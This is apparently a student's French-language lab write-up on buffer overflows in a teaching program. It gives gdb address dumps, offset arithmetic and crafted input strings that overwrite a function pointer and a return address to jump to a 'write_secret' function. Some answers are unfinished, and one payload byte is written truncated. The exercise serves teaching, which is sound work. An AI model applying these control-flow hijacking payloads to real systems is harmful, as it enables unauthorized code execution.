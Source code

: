 # TP sur le Buffer Overflow

Pour référence :

```c
fptr  ptrs[3] = { NULL, get_wisdom, put_wisdom };

int main(int argc, char *argv[]) {

  while(1) {
      char  buf[1024] = {0};
      int r;
      fptr p = pat_on_back;
      r = write(outfd, greeting, sizeof(greeting)-sizeof(char));
      if(r < 0) {
        break;
      }
      r = read(infd, buf, sizeof(buf)-sizeof(char));
      if(r > 0) {
        buf[r] = '\0';
        int s = atoi(buf);
        fptr tmp = ptrs[s];
        tmp();
      } else {
        break;
      }
  }

  return 0;
}
```

## Question 1

La 1re variable que je trouve étant sujette à une attaque buffer overflow est `wis` dans la fonction `put_wisdom`.

## Question 2

Cette variable est remplie par la fonction dépréciée `gets`, qui écrit dans la mémoire sans vérifier la taille du buffer, jusqu'à rencontrer un `\n`, EOF ou `\0`.

```c
void put_wisdom(void) {
  char  wis[DATA_SIZE] = {0}; 
  int   r;

  r = write(outfd, prompt, sizeof(prompt)-sizeof(char));
  if(r < 0) {
    return;
  }
 
  r = (int)gets(wis); 
  if (r == 0)
    return;
  ...
}
```

## Question 3: NOT SURE

Une autre variable est sujette à une attaque buffer overflow et qui ne se trouve pas dans la *stack* est le tableau `ptrs` qui est une variable global.

```c
fptr  ptrs[3] = { NULL, get_wisdom, put_wisdom };
```

## Question 4: TODO

## Question 5

```
(gdb) print &buf
$2 = (char (*)[1024]) 0xbffff400
```

## Question 6

```
(gdb) print &ptrs
$3 = (fptr (*)[3]) 0x804a0d4
```

## Question 7

```
(gdb) print &write_secret
$4 = (void (*)(void)) 0x8048534 <write_secret>
```

## Question 8

```
(gdb) print &p
$6 = (fptr *) 0xbffff804
```

## Question 9

En python : 

```
>>> ptrs = 0x804a0d4
>>> p = 0xbffff804
>>> (p-ptrs)//4
771675596
```

On divise par 4 car avec `ptrs[1]` on se déplace de 1 adresse, et 1 adresse = 4 octets sur un système 32 bits.
Ainsi, si on veut se déplacé de X octets, on peut en faite faire `ptrs[X//4]`.

Note : `//` est l'opérateur de division entière en python.

## Question 10

```
>>> ptrs = 0x804a0d4
>>> buf = 0xbffff400
>>> (buf-ptrs + 64)//4
771675355
```

## Question 11

```
>>> ptrs = 0x804a0d4
>>> write_secret = 0x8048534
```

Donc on écrit en input :
```
771675355\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x34\x85\x04\x8
~~~~~~~~~ ~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~
adresse   fin  On remplit buf pour atteindre buf[64]                adresse de 
                                                                    write_secret 
                                                                    en 
                                                                    little-endian 
                                                                    (\x8 ou \x08)
```

## Question 12

```
(gdb) break wisdom-alt.c:62
(gdb) cont
Continuing.

Breakpoint 1, put_wisdom () at wisdom-alt.c:62
62        r = (int)gets(wis);
(gdb) x/48wx $esp
0xbffff320:     0x00000001      0x0804a098      0x00000012      0x00000020
0xbffff330:     0x00000004      0x00000004      0x00000020      0x00000000
0xbffff340:     0xbffff348      0xb7e9e411      0x00000000      0x00000000
0xbffff350:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff360:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff370:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff380:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff390:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff3a0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff3b0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff3c0:     0x00000000      0x00000000      0x00000012      0xbffff400
0xbffff3d0:     0x00000000      0xbffff800      0xbffff818      0x0804880d
(gdb) print &write_secret
$1 = (void (*)(void)) 0x8048534 <write_secret>
(gdb) print &wis
$2 = (char (*)[128]) 0xbffff348
(gdb) backtrace
#0  put_wisdom () at wisdom-alt.c:62
#1  0x0804880d in main () at wisdom-alt.c:102
```

```
>>> r = r"""0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000012      0xbffff400 0x00000000      0xbffff800      0xbffff818""" # entre 0xbffff348 (&wis) et 0x0804880d (& de retour, pointe dans main)
>>> len(r.split()) * 4
148
>>> print(r"A\x00" + "A"*(148-2) + r"\x34\x85\x04\x08") # 2 octets pour que gets() puisse lire, padding, et &write_secret little-endian
A\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x34\x85\x04\x08
```